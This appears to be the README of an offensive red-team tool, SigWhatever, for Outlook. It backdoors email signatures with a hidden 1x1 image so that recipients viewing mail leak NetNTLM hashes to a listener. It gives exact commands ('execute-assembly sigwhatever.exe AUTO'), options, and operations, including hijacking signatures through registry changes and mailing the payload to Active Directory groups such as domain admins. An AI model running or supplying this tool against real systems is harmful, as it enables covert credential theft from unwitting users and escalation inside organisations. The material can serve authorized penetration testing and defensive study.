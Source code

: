 Sigwhatever
For automated exploitation of netntlm hash capture via image tags in emails signatures. This targets Outlook specifically and will insert a 1x1px image into an existing signature block, or create a new signature as required. A listener is then started to capture authentication attempts that happen as a result of sent emails being viewed by other users.

The tool borrows code from the Seatbelt and Inveigh projects - features are:

* Queries the firewall for suitable ports to listen on (Uses some seatbelt code)
* Cross references HttpQueryServiceConfiguration for any usable URL ACLs
* TCP/HTTP server and hash capture (Uses Inveigh code)
* Signature Detection (to modify the appropriate registry settings and signatures)
* Modification of Signature
* Feature to send mail to specific group (e.g. domain admins)
* Option to create encrypted logs on disk
* Cleanup (Reverts changes in signature settings and existing signature)

==========

**TL DR:**

run:

**execute-assembly sigwhatever.exe AUTO**

Then when you're finished, run:

**execute-assembly sigwhatever.exe CLEANUP**

Bear in mind that even running jobkill on the .net job does not seem to kill the spawned process.

==========


Usage: SigWhatever.exe [OPTIONS]+ operation


Options:
  -p, --port=VALUE           TCP Port.
  -l, --log=VALUE            Log file path.
  -g, --group=VALUE          Target Active Directory group.
  -f, --force                Force HTTP server start.
      --ba, --backdoor-all   Backdoor all signatures.
  -c, --challenge=VALUE      NTLM Challenge (in hex).
  -u, --url-prefix=VALUE     URL Prefix. e.g. /MDEServer/test
  -h, --help                 Show this message and exit.

Operations:
  AUTO: Just do everything for me - backdoor the signature and start the listener on this box.
  Usage: SigWhatever.exe AUTO

  CHECKTRUST: Check whether the trust zone settings - if the domain isn't in there then this probably won't work
  Usage: SigWhatever.exe CHECKTRUST

  CHECKFW: Check whether the host based firewall is on and whether there's an exception for the chosen port
  Usage: SigWhatever.exe CHECKFW -p <port>

  SIGNATURE: hijack the current user's signature, or add a new one via registry changes
  Usage: SigWhatever.exe SIGNATURE -p <port> -l <logfile> -u <url prefix> --backdoor-all --force

  SIGNOLISTEN: hijack the current user's signature, or add a new one via registry changes
  Usage: SigWhatever.exe SIGNOLISTEN -s <server> -p <port> -l <logfile> --backdoor-all>

  CLEANUP: Remove any modifications to the registry or htm signature files
  Usage: SigWhatever.exe CLEANUP

  EMAILADMINS: Enumerate email addresses from an AD group and send them a 'blank' email with the payload.
  Usage: SigWhatever.exe EMAILADMINS -g <Active Directory group> -p <port> -l <logfile> --force

  LISTENONLY: Just start the listener - make sure it's on the same port
  Usage: SigWhatever.exe LISTENONLY -p <port> -l <logfile>

  SHOWACLS: List all URL Reservation ACLs with User, Everyone or Authenticated Users permissions.
  Usage: SigWhatever.exe SHOWACLS

  NOTE: With the signature option, if --backdoor-all is not specified then the tool will attempt to get the current signature from Outlook - this may cause a popup for the user if their AV is out of date.
  
Authors: David Cash, Rich Warren, Julian Storr 
